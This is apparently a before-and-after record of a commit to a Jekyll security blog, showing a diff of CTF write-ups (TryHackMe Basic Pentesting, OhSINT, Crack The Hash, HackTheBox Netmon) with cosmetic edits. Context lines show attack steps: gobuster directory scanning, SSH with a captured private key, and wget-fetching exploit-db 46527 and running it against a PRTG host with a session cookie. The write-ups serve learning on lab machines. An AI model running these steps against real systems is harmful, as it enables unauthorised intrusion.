

Before and after one commit to firatfolcay/arszilla.github.io, a Jekyll site: the page built from _posts/2019-06-08-thm-basic_pentesting.markdown, in a window 1280 px wide and 900 px high, scrolled down 2233 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

````diff
--- a/_posts/2019-06-08-thm-basic_pentesting.markdown
+++ b/_posts/2019-06-08-thm-basic_pentesting.markdown
@@ -84,8 +84,8 @@ If we take a look at the source code of the page we’ll see this:
 </html>
 ```
 
-This hints us to a hidden directory. To find this we’ll use `gobuster`. Do note that I copied
-`directory-list-2.3-medium.txt` from `/usr/share/wordlists/dirbuster/` to my working directory.
+This hints us to a hidden directory. To find this we’ll use `gobuster`. Do note `directory-list-2.3-medium.txt` was
+copied from `/usr/share/wordlists/dirbuster/`.
 
 ```
 $ gobuster -u http://10.0.0.90 -w directory-list-2.3-medium.txt
@@ -250,6 +250,7 @@ Now that we have Kay’s private RSA key, let's try to use it.
 
 ```
 $ chmod -600 id_rsa
+
 $ ssh -i id_rsa kay@10.0.0.45
 Enter passphrase for key 'id_rsa':
 ```
@@ -331,7 +332,6 @@ Taking a look at `flag.txt` reveals this message:
 Congratulations! You've completed this challenge. There are two ways (that I'm aware of) to gain
 a shell, and two ways to privesc. I encourage you to find them all!
 
-
 If you're in the target audience (newcomers to pentesting), I hope you learned something. A few
 takeaways from this challenge should be that every little bit of information you can find can be
 valuable, but sometimes you'll need to find several different pieces of information and combine
@@ -340,11 +340,9 @@ an obviously outdated, vulnerable service right away with a port scan (unlike th
 in this series). Usually you'll have to dig deeper to find things that aren't as obvious, and
 therefore might've been overlooked by administrators.
 
-
 Thanks for taking the time to solve this VM. If you choose to create a writeup, I hope you'll send
 me a link! I can be reached at josiah@vt.edu. If you've got questions or feedback, please reach
 out to me.
-
 
 Happy hacking!
 ```
--- a/_posts/2019-06-20-thm-ohsint.markdown
+++ b/_posts/2019-06-20-thm-ohsint.markdown
@@ -1,6 +1,6 @@
 ---
 title: "TryHackMe: OhSINT - Writeup"
-date: 2019-06-20 00:00:00 +0300
+date: 2019-06-20 00:00:00
 categories: [cybersec, infosec, osint, tryhackme]
 tags: [intelligence gathering, osint, open source intelligence]
 ---
--- a/_posts/2019-06-29-thm-crack_the_hash.markdown
+++ b/_posts/2019-06-29-thm-crack_the_hash.markdown
@@ -1,6 +1,6 @@
 ---
 title: "TryHackMe: Crack The Hash - Writeup"
-date: 2019-06-29 00:00:00 +0300
+date: 2019-06-29 00:00:00
 categories: [cybersec, infosec, tryhackme]
 tags: [brute-force, hash cracking]
 ---
--- a/_posts/2019-07-01-htb-netmon.markdown
+++ b/_posts/2019-07-01-htb-netmon.markdown
@@ -83,6 +83,7 @@ ncftp /Users > ls -la
 02-03-19  12:35AM       <DIR>          Public
 
 ncftp /Users > cd Public/
+
 ncftp /Users/Public > ls -la
 02-03-19  08:05AM       <DIR>          Documents
 07-16-16  09:18AM       <DIR>          Downloads
@@ -109,6 +110,7 @@ some files regarding the login credentials was fruitful as there were 3 configur
 
 ```
 ncftp / > cd ProgramData
+
 ncftp /ProgramData > ls -la
 02-03-19  12:15AM       <DIR>          Licenses
 11-20-16  10:36PM       <DIR>          Microsoft
@@ -215,7 +217,9 @@ Since we logged in to PRTG Network Manager, we can use the developer console to
 
 ```
 $ wget https://www.exploit-db.com/download/46527
+
 $ sed -i -e 's/\r$//' 46527
+
 $ ./46527 -u http://10.10.10.152 -c "OCTOPUS1813713946=ezk4RkMxM0M4LTkxMzYtNEVDOS1CODgwLTc4OUY5QjJERjJFN30%3D; _gat=1"
 
 [+]#########################################################################[+]
````
Also changed, not shown: other parts of _posts/2019-07-01-htb-netmon.markdown (+1 -1 lines).
